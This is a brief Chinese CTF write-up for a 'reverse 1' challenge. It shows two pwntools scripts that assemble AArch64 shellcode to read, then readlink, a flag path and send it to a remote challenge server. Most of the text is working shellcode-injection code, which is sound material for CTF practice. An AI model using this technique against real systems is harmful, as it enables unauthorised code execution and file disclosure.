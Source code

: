 ## reverse 1
提示是misc1，因此代表要寫AArc64的shellcode，將pwn1的shellcode改成AArch64後送出，會發現提示flag是link，要用`readlink()`這個syscall
```python
#!/usr/bin/env python3
from pwn import *

context.update(os='linux', arch='aarch64')

s = ''
s += shellcraft.pushstr('/home/rev1/flag\x00\x00\x00')
s += shellcraft.open('sp', constants.O_RDONLY, 0)
s += shellcraft.read('x0', 'sp', 120)
s += shellcraft.write(1, 'sp', 'x0')

r = remote('10.13.2.44', 10732)
r.sendline(asm(s))
r.interactive()
```
改成`readlink()`完`write()`出buffer即可

```python
#!/usr/bin/env python3
from pwn import *

context.update(os='linux', arch='aarch64')

s = ''
s += shellcraft.pushstr('/home/rev1/flag\x00')
s += shellcraft.readlink('sp', 'sp', 100)
s += shellcraft.write(1, 'sp', 120)

r = remote('10.13.2.44', 10732)
r.sendline(asm(s))
r.interactive()
```
